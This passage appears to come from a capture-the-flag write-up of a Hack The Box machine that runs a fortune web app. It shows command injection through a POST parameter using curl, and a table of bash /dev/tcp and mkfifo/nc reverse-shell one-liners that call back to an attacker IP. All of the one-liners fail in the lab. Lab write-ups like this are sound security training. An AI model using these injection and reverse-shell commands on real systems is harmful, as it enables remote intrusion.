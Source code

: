![1564382500943](https://0xdfimages.gitlab.io/img/1564382500943.png)

It works, I get a startrek quote (since the quotes are picked at random, it may take a few submits to get one from startrek). I could also play with the weighting to pretty much guarantee a certain type of quote:

![1564382626812](https://0xdfimages.gitlab.io/img/1564382626812.png)

### Command Injection

Given that I can control the command line, I should look for command injection. It works:

```

root@kali# curl -s -X POST http://10.10.10.127/select -d "db=;id"
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

For every complex problem, there is a solution that is simple, neat,
and wrong.
                -- H. L. Mencken
uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)

</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
</html>

```

### Reverse Shell - Fail

I tried a bunch of things to get a reverse shell, but none worked:

| Command | Result |
| --- | --- |
| `bash -i >& /dev/tcp/10.10.14.10/443 0>&1` | Nothing |
| `bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'` | `bash: connect: No route to host` `bash: /dev/tcp/10.10.14.10/443: No route to host` |
| [python rev shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) | Nothing |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.14.10 443 >/tmp/f` | Nothing, but `/tmp/f` now exists |

I then tried just to `nc` back to myself, and still no connect. It seems like something if blocking outbound connections.
